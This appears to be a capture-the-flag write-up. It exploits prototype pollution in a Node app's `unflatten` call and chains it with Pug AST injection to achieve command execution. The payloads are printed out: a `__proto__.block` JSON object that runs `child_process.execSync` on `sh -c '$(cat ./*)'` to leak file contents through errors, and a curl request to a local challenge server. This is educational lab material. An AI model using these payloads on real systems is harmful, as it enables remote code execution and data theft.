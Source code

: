 Starting with the code we can see it runs out input through `unflatten`. Doing some research around this suggests it will expand any var so we maybe able to do prototype polution.

Following on with that I ran it locally and set a break point just after the unflatten with the following test
```json
{
    "song.name": "ASTa la vista baby",
    "__proto__.test": "test"
}
```
Doing this proved I can do prototype polution by passing in data

Next I started looking at the pug framework and found that its possible via the `block` value as mentioned in https://blog.p6.is/AST-Injection/#Pug

So using this data we can build the below query to get the server to run a command and then try to run that output, therefor throwing an error so we can exfiltrate the data obtained
```bash
sh -c '$(cat ./*)'
```

```json
{
    "song.name": "ASTa la vista baby",
    "__proto__.block": {"type":"Text","line":"process.mainModule.require('child_process').execSync(`sh -c '$(cat ./*)'`)"}
}
```

```bash
CURL -X POST -H "Content-Type: application/json" -F "{\"song.name\":\"ASTa la vista baby\",\"__proto__.block\":{\"type\":\"Text\",\"line\":\"process.mainModule.require('child_process').execSync(`sh -c '$(cat ./*)'`)\"}}" http://127.0.0.1:1337/api/submit
```